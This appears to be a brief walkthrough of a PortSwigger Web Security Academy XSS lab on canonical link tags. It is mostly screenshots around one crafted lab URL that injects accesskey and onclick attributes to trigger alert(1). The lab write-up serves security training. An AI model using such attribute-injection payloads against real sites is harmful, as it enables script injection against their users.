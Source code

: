 ## Welcome, my friend. Today we will start the [19. XSS lab](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-canonical-link-tag) in ```portswigger```
### Let's play this lab:

![image](https://github.com/user-attachments/assets/8ceef578-27e0-4f75-9773-0b2e569a219a)

#### First, we navigate inside the browser

![image](https://github.com/user-attachments/assets/fee531b6-1042-4c0f-b5ae-13862621afef)


### Let's enter ```javascript``` code in Our URL:

```
https://0a8f00db046747248307234100d1005a.web-security-academy.net/?%27accesskey=%27x%27onclick=%27alert(1)
```

![image](https://github.com/user-attachments/assets/fed288a2-deb4-40d3-9d56-64b4ecc89832)


-------

### Done! Congratulations, friends❤️‍🔥


<p align="center">
<img src="https://github.com/user-attachments/assets/2fec8d8f-22d5-4564-8544-4dab70e3cbe6" >
</p>

